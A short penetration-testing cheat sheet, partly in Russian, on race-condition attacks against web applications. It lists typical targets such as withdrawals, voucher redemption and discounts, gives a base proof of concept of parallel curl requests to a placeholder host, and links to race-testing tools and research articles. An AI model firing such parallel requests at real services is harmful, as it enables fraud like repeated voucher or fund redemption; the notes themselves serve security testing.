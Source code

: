# Race Condition

## Типичные примеры

* transfer/withdraw
* redeem voucher
* apply discount
* review/rate
* login

## Base PoC

```
curl -X GET 'https://example.com/?code=123&user=1' & \
curl -X GET 'https://example.com/?code=123&user=2' & \
curl -X GET 'https://example.com/?code=123&user=3' & \
curl -X GET 'https://example.com/?code=123&user=4' & \
curl -X GET 'https://example.com/?code=123&user=5' & \
wait
```

## Some tools

Race-the-Web (Go):[ https://github.com/aaronhnatiw/race-the-web](https://github.com/aaronhnatiw/race-the-web)

racepwn (Python): [https://github.com/racepwn/racepwn](https://github.com/racepwn/racepwn)

## Статьи

Удержание там через gate штуку. Собственно, семпл из репы [https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race.py](https://github.com/PortSwigger/turbo-intruder/blob/master/resources/examples/race.py)

[https://bo0om.ru/race-condition-ru](https://bo0om.ru/race-condition-ru) и соотв тулза racepwn к ней

Доклад и статья Джеймса Китла:\
\- [https://www.youtube.com/watch?v=tKJzsaB1ZvI](https://www.youtube.com/watch?v=tKJzsaB1ZvI)\
\- [https://portswigger.net/research/smashing-the-state-machine](https://portswigger.net/research/smashing-the-state-machine)

